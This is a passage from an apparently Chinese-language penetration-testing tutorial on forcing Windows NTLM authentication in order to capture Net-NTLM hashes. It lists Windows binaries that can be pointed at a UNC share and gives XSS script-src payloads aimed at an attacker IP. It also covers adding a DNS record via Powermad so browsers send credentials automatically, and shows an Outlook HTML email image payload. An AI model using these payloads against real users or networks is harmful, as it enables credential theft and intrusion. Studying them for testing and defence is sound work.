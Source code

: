 ```
fvenotify.exe \hostshare #(noisy, pops an access denied error)  
FXSCOVER.exe \hostshare #(noisy, pops GUI)  
hwrcomp.exe -check \hostshare  
hwrreg.exe \hostshare  
icacls.exe \hostshare   
licensingdiag.exe -cab \hostshare  
lodctr.exe \hostshare  
lpksetup.exe /p \hostshare /s  
makecab.exe \hostshare  
msiexec.exe /update \hostshare /quiet  
msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
mspaint.exe \hostshare #(noisy, invalid path to png error) 
msra.exe /openfile \hostshare #(noisy, error)  
mstsc.exe \hostshare #(noisy, error)  
netcfg.exe -l \hostshare -c p -i foo
```
### XSS
利用xss构造
```
<script src="\\172.16.100.1\xss">
```
![](https://p1.ssl.qhimg.com/t01d96892dd9bacd006.png)
这种情况适用于IE和edge，其他浏览器不允许从http域跨到file域，以chrome为例
![](https://p0.ssl.qhimg.com/t01b5e489638e741140.png)
我们接下来尝试不通过UNC路径，就xss里面访问http请求来发起认证
把payload 改成
`<script src="//172.16.100.1/x">`
看到跳出认证框，我们也没抓到net-ntlm hash
![](https://p4.ssl.qhimg.com/t01d831a54fc5c0ddf4.png)
不像smb请求直接用当然用户名和密码去登录，发起http请求时，除非该站点的域名位于企业内部网或存在于可信站点列表中。否则都会跳出认证框来让操作者再输入一次。
![](https://p5.ssl.qhimg.com/t01cf6050d471e1b07f.png)
当我们选择`自动使用当前用户名和密码登录`就能拿到用户的net-ntlm hash
![](https://p5.ssl.qhimg.com/t011c799b3a99410492.png)
![](https://p2.ssl.qhimg.com/t01e21b083ca4f5bce3.png)
修改后的配置同样适用于chrome
那至今为止，在默认的配置情况底下，如果有xss，那构造的页面的效果有两种
构造unc，访问smb 协议，但是这种方式的话就只有IE和edge能行
`<script src="\\172.16.100.1\xss">`
构造http，访问http 协议，这种方式并不限制浏览器访问，但是除非该站点的域名位于企业内部网或存在于可信站点列表中，不然是不会使用系统默认的凭据进行登录的，会跳出认证框，让用户填写账号密码。
`<script src="//172.16.100.1\xss">`
第二点该站点的域名位于企业内部网也是行的，那如果我们可以修改控制域内的DNS是不是就可以动点手脚了。
在查看DNS的ACL的时候，我发现了一条规则
![](https://p3.ssl.qhimg.com/t0156594bf19f92141b.png)
认证用户都可以在DNS里面创建子对象，也就意味着如果我们是域内认证 用户的话，那我们就可以在域内添加域名。我们使用在kerberos篇里面提到过的Powermad里面的Invoke-DNSUpdate添加一条DNS记录
![](https://p1.ssl.qhimg.com/t010acabe37759199fa.png)
然后将我们的payload 换成
`<script  src="//xss\xss"></script>`
由于此时的域名位于企业内部网，所以当用户触发xss的时候会以当前用户去认证，我们也就能拿到用户的net-ntlm hash。
![](https://p3.ssl.qhimg.com/t01fdbc50b54c937fa6.png)
### outlook
发送邮件是支持html的，而且outlook里面的图片加载路径又可以是UNC。于是我们构造payload
```
<img src="\\172.16.100.1\outlook">
```
![](https://p4.ssl.qhimg.com/t017426b6c5935ad70f.png)